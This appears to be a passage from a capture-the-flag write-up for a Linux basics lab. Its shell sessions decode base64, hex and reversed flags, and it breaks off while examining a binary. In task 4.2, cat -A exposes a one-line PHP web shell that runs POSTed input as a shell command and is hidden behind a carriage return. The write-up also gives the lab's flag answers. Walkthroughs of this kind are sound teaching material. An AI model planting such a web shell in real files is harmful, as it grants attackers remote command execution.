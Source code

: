 #4.0 - Instructions

This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

#4.1 - Find and retrieve flag 20.

Hint: Its base64 encoded.

alice@ip-10-10-167-164:~$ cat flag20 
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-167-164:~$ cat flag20 | base64 -d
02b9aab8a29970db08ec77ae425f6e68
#4.2 - Inspect the flag21.php file. Find the flag.

Hint: Jump to Question #5 if you get stuck on this one.

Let’s find flag21.php and see what it contains:

alice@ip-10-10-167-164:~$ find / -name flag21.php 2>/dev/null
/home/bob/flag21.php
alice@ip-10-10-167-164:~$ cat /home/bob/flag21.php 
<?='MoreToThisFileThanYouThink';?>
The indication let us know that there is a hidden content. Let’s use cat with the -A flag to show all:

$ cat -A flag21.php 
<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>$
Answer: g00djob

#4.3 - Locate and read flag 22. Its represented as hex.

Hint: Use xxd to convert hex to ascii.

alice@ip-10-10-167-164:/home/bob$ find / -name flag22* 2>/dev/null
/home/alice/flag22
alice@ip-10-10-167-164:/home/bob$ cat /home/alice/flag22 
39 64 31 61 65 38 64 35 36 39 63 38 33 65 30 33 64 38 61 38 66 36 31 35 36 38 61 30 66 61 37 64
It’s a serie of hex, that can be converted to ASCII characters with xxd:

alice@ip-10-10-167-164:/home/bob$ xxd -r -p /home/alice/flag22 
9d1ae8d569c83e03d8a8f61568a0fa7d
#4.4 - Locate, read and reverse flag 23.

alice@ip-10-10-167-164:/home/bob$ find / -name flag23* 2>/dev/null
/home/alice/flag23
alice@ip-10-10-167-164:/home/bob$ cat /home/alice/flag23 
5ffb258330b8437a090c4f66507925ae
alice@ip-10-10-167-164:/home/bob$ cat /home/alice/flag23 | rev
ea52970566f4c090a7348b033852bff5
#4.5 - Analyse the flag 24 compiled C program. Find a command that might reveal human readable strings when looking in the source code.

Hint: Which user can access this flag?

flag24 is an executable. When run, it doesn’t reveal the flag:

alice@ip-10-10-167-164:~$ find / -name flag24* 2>/dev/null
/home/garry/flag24
alice@ip-10-10-167-164:~$ file /home/garry/flag24 
/home/garry/flag24: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d88e59a01b68aa0969e59bb68726cd7bf8ded9bf, not stripped
alice@ip-10-10-167-164:~$ cd /home/garry/
alice@ip-10-10-167-164:/home/garry$ ./flag24 
Nothing to see here!!
Let’s see if there is a MD5 in it:
